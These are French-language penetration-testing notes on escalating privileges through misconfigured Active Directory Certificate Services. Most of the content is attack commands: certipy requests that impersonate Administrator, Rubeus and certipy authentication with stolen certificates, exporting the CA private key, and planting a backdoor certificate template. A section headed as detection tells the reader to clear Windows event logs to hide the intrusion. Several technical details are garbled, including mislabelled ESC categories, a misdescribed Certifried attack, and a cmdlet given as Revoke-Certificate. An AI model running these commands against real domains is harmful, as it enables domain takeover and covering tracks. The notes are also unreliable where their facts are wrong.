

L'exploitation des services **AD CS** (Active Directory Certificate Services) permet une élévation de privilèges via l'abus de la configuration des templates de certificats et des droits d'accès au serveur de certification. Cette méthodologie s'appuie sur les concepts de **Kerberos**, **Privilege Escalation Windows** et l'énumération via **BloodHound**.

## Comprendre AD CS

**AD CS** est une infrastructure de gestion de certificats intégrée à Active Directory, utilisée pour l'authentification, le chiffrement et la signature numérique.

### Composants clés

| Composant | Fonction |
| :--- | :--- |
| **CA** (Certificate Authority) | Autorité de certification émettrice |
| **CRL** (Certificate Revocation List) | Liste des certificats révoqués |
| **Templates** | Modèles définissant les règles d'émission |
| **Enrollment Services** | Services de demande de certificats |
| **Web Enrollment** | Interface web d'inscription |

## Identification des vulnérabilités

### Détection de la présence d'AD CS

```powershell
Get-ADObject -Filter {objectClass -eq "pKIEnrollmentService"} -Property CN, Name, DistinguishedName
```

### Analyse des permissions (Enrollment Rights)
L'analyse des droits d'inscription est cruciale pour identifier qui peut demander des certificats. Les permissions sont stockées dans l'attribut `msPKI-Enrollment-Flag` et les ACLs du template.

```bash
# Utilisation de certipy pour lister les permissions sur les templates
certipy find -u 'user' -p 'password' -dc-ip 10.10.10.10 -vulnerable
```

### Analyse des GPO liées à AD CS
Les GPO peuvent forcer l'auto-inscription des certificats sur les machines du domaine, augmentant la surface d'attaque.

```powershell
# Lister les GPO liées à l'auto-enrollment
Get-GPO -All | Get-GPOReport -ReportType XML | Select-String "AutoEnrollment"
```

### Enumération avec Certipy

> [!tip]
> Utiliser **BloodHound** avec les ingestors **AD CS** pour visualiser les chemins d'attaque.

```bash
certipy find -u 'user' -p 'password' -dc-ip 10.10.10.10
certipy find -u 'user' -p 'password' -dc-ip 10.10.10.10 --template
```

## Exploitation des failles AD CS

> [!danger]
> L'exploitation d'**AD CS** peut générer un volume important de logs (Event ID 4886, 4887, 4888).

> [!warning]
> Prérequis : Nécessite une visibilité réseau vers le **CA** et le contrôleur de domaine.

### ESC1 - User Enrollment with Misconfigured Templates
Si un utilisateur dispose des droits d'auto-inscription sur un template vulnérable, il peut obtenir un certificat pour un autre utilisateur.

```bash
certipy request -u 'user' -p 'password' -ca 'CA_NAME' -template 'VulnerableTemplate'
```

### ESC2 - Dangerous Client Authentication Templates
Un template autorisant l'authentification client peut être détourné pour usurper une identité.

```bash
certipy request -u 'user' -p 'password' -ca 'CA_NAME' -template 'VulnTemplate' -upn 'Administrator@domain.local'
```

### ESC3 - Misconfigured AD CS Certificate Authority ACLs
La modification des ACLs de la **CA** permet d'ajouter des templates arbitraires.

> [!danger]
> La modification de templates peut corrompre le fonctionnement légitime de la **PKI**.

```bash
certipy ca -u 'user' -p 'password' -dc-ip 10.10.10.10 --add-template ESC3Template
```

### Détails techniques sur ESC4, ESC5, ESC6, ESC7, ESC8
- **ESC4**: Le template possède des permissions d'écriture (Full Control) permettant de modifier ses propriétés (ex: activer `msPKI-Certificate-Name-Flag` pour autoriser l'usurpation).
- **ESC5**: Abus des permissions sur les objets CA, Enrollment Services ou le serveur lui-même.
- **ESC6**: Le CA autorise l'édition du champ `SubjectAltName` (SAN) via l'attribut `EDITF_ATTRIBUTESUBJECTALTNAME2`.
- **ESC7**: L'utilisateur possède les droits `Manage CA` ou `Manage Certificates`, permettant d'approuver des requêtes en attente.
- **ESC8**: Abus des interfaces web (HTTP) du CA permettant l'authentification NTLM relayée vers le service Web Enrollment.

### Certifried Attack
Exploitation d'un template permettant l'émission de certificats pour des comptes tiers.

```bash
certipy request -u 'user' -p 'password' -ca 'CA_NAME' -template 'CertifriedTemplate' -upn 'Administrator@domain.local'
```

## Exploitation de certificats volés

L'obtention d'un certificat permet l'authentification via **Pass-the-Certificate**, une alternative au **Pass-the-Hash** ou **Pass-the-Ticket**.

### Exploitation avec Rubeus (Windows)

```powershell
Rubeus.exe asktgt /user:Administrator /certificate:admin.pfx /password:password
```

### Exploitation avec Certipy (Linux)

```bash
certipy auth -pfx admin.pfx -dc-ip 10.10.10.10
```

## Post-Exploitation

La persistance peut être établie en créant un nouveau template vulnérable.

```powershell
New-ADObject -Name "BackdoorTemplate" -Type pKICertificateTemplate -PassThru
```

### Méthodes de persistence via certificats (Golden Certificate)
Si le certificat de la CA (CA Certificate) est compromis, un attaquant peut générer des certificats valides pour n'importe quel utilisateur (Golden Certificate).

```bash
# Export de la clé privée de la CA si accès administrateur obtenu
certipy ca -u 'admin' -p 'pass' -ca 'CA_NAME' -backup
```

## Détection et Mitigation

### Audit des templates

```powershell
Get-ADObject -Filter {objectClass -eq "pKIEnrollmentService"} -Property *
```

### Révocation de certificats

```powershell
Revoke-Certificate -Thumbprint "ABC123"
```

### Nettoyage des traces (Log clearing)
L'effacement des logs d'événements Windows est nécessaire pour masquer l'activité d'exploitation.

```powershell
wevtutil cl Application
wevtutil cl System
wevtutil cl Security
```

> [!note]
> Il est recommandé de désactiver l'auto-enrollment pour les comptes standards et de restreindre les droits d'accès aux templates sensibles. Référez-vous aux notes sur **Active Directory Enumeration** et **Kerberos Attacks** pour corréler ces activités.